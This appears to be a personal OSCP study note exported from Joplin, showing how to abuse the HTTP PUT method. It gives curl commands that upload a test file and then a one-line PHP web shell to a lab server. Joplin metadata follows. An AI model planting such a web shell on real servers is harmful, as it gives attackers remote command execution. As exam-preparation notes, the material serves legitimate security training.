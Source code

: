 HTTP Methods

# PUT

https://github.com/gajos112/OSCP/blob/master/HTTP%20PUT%20option

> curl --upload-file test.txt -v --url http://10.0.2.13/test/test.txt -0 --http1.0
> 
> curl -v -X PUT -d ‘&lt;?php system ($_GET\[“cmd”\]); ?&gt;’ http://10.0.2.13/shell.php

id: 182320aff2b1444481aa40d05dbaf48c
parent_id: 650ce108a34a450d868c29c647ea1bab
created_time: 2022-04-28T01:54:59.876Z
updated_time: 2022-04-28T02:03:35.071Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-28T01:54:59.876Z
user_updated_time: 2022-04-28T02:03:35.071Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1